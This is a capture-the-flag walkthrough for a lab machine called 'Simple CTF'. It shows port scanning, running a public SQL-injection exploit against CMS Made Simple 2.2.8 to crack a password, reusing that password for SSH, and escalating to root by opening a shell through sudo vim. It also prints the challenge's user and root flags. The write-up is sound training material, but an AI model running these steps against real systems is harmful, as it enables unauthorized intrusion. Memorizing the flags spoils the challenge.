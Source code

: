 # [cd ../](../index.md)
# Simple CTF

# Start

## Scans
- [nmap](nmap.txt)  
  Open ports are `21`(anonymous login enabled), `80` and `2222`
- [dirsearch](dirsearch.png)
  Found `/simple`  
  Its a CMS Made Simple 2.2.8 and that is vulnerable to [sqli](https://www.exploit-db.com/exploits/46635)

## Exploiting the sqli
- Just download the exploit and run it with --crack mode  

```
python2 46635.py -u http://10.10.200.68/simple/ --crack -w ~/tools/wordlists/rockyou.txt
```
![cracked](cracked.png)
- So we got `mitch`:`secret`
## Whats on ftp?
![thonk](thonk.png)
- We can find `ForMitch.txt`
> Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

Ohohohooo same pw :D

## Goin in
- Try ssh

```
ssh mitch@10.10.200.68 -p 2222
```
- Got in!!

### Got the user flag(`/home/mitch/user.txt`)
```
G00d j0b, keep up!
```

## Privesc to ROOT
- Just some basic enum

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

OHHHH MAAAAAN thats cool

### Exploiting the vulnerability
```
sudo /usr/bin/vim

:!sh
```


# Got ROOT

![root](root.png)  

And got the root flag(`/root/root.txt`)
```
W3ll d0n3. You made it!
```

